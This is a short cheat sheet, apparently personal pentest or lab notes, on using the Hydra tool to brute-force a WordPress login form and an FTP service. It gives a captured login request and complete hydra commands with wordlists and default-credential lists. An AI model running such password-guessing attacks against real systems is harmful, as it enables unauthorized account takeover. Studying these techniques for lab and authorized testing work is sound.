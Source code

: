 # Hydra

## Flags
```
-t  Number of parallel connections per target
-vV Sets verbose mode to very verbose, shows the login+pass combination for each attempt

```
## Bruteforce HTTP Form

To bruteforce a Login catch the request with burpsuite and for a hydra command.

Burpsuite Request
```
POST /wp-login.php HTTP/1.1
Host: 10.38.1.111
User-Agent: Mozilla/5.0 (Windows NT 10.0; rv:91.0) Gecko/20100101 Firefox/91.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded
Content-Length: 101
Origin: http://10.38.1.111
DNT: 1
Connection: close
Referer: http://10.38.1.111/wp-login.php
Cookie: s_fid=68C1BD34EC9C4864-1C81564B06522EDF; s_nr=1643752744400; s_cc=true; s_sq=%5B%5BB%5D%5D; wordpress_test_cookie=WP+Cookie+check
Upgrade-Insecure-Requests: 1

log=admin&pwd=123456&wp-submit=Log+In&redirect_to=http%3A%2F%2F10.38.1.111%2Fwp-admin%2F&testcookie=1
```

Command:
```console
root@machine:~$ hydra -vV -L fsocity.dic.uniq -p wedontcare 192.168.2.4 http-post-form '/wp-login.php:log=^USER^&pwd=^PASS^&wp-submit=Log+In:F=Invalid username'

Options:
    -vV     verbose mode
    -L      use wordlist for Username
    -p      use given password
    -http-post-form     request type

Payload:
    '/wp-login.php:log=^USER^&pwd=^PASS^&wp-submit=Log+In:F=Invalid username'
```

`^USER^` & `^PASS^` are used as placeholder. 
`"F=Invalid username"` is the string for the error message.

## Bruteforce FTP
Combo (Colon Separated) Lists
```console
root@machine:~$ hydra -v -C /usr/share/seclists/Passwords/Default-Credentials/ftp-betterdefaultpasslist.txt -f 10.0.0.3 ftp

Options
    -v verbose mode.
    -C <user:pass file>: colon-separated “login:pass” format.
    -f exit after the first found user/password pair.
```

